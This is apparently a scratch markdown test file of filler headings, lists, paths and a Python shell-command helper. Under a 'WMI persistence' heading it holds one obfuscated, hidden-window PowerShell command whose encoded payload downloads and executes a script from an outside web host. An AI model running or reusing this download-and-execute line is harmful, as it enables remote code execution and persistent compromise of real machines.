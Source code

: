 
# test
aaa
a
a

* test
 * test
 * test


##  tata

 copy pasted
 ➤ test

bb
###  tata
###
####  tata
#####  tata

#### tata
### tata

### where 



####### This is true


FF7B00
foo
 fdsfsd
 sfds 
 TODO 
 test
TODO
DONE

https://test.com
http://test.com
c:\\windows
C:\\windows
here is : /root/test

/home/cc/github/notes/2fa_domain_admin.md
2fa_domain_admin.md
;;

# tata
tomatoc

`
def sh(cmd, stdin="", sleep=False):
    """ run a command, send stdin and capture stdout and exit status"""
    if sleep:
        time.sleep(0.5)
    # process = Popen(cmd.split(), stdin=PIPE, stdout=PIPE)
    process = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
    process.stdin.write(bytes(stdin, "utf-8"))
    stdout = process.communicate()[0].decode('utf-8').strip()
    process.stdin.close()
    returncode = process.returncode
    return returncode, stdout

### WMI persistence

``
powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA

#222222
CTRL+V u 2 0 2 2 

CTRL+V u 2 0 2 2

* fdsf
 * test
* test
* where  is lovedd  ffff 

*******


self.test  

  ~/github/notes/2fa_domain_admin.md:1


